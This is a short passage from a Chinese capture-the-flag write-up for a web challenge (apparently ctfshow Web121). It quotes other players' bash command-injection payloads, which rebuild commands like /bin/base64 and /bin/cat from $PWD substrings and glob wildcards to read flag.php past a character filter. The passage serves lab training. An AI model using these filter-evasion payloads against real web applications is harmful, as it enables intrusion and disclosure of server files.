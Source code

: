 ![web121_flag](./image/web121_flag.png)

其他师傅wp

```
${PWD::${##}}???${PWD::${##}}${PWD:${#IFS}:${##}}?? ????.??? --> /???/r?? ????.???
# 这个思路不错
/bin/base64 flag.php → /???/?????4 ????.??? → ${PWD::${##}}???${PWD::${##}}?????${#RANDOM} ????.??? 摇骰子，随机到4位数就行
```

> 一、赌狗法，试了，没成功，几率很小
>
> code=${PWD::${##}}???${PWD::${##}}?${PWD:${#RANDOM}:${##}}? ????.???
>
> 二、依旧折磨PWD这个haosao
>
> ${PWD::${##}}???${PWD::${##}}??${PWD:${##}${#}:${##}} ????.???
>
> 尽量精简，用/var/www/html构造/???/??t ????.???
>
> 正好${##}${#} -> 10
>
> PWD第十位是t，第一位是/



## Web122

题目：
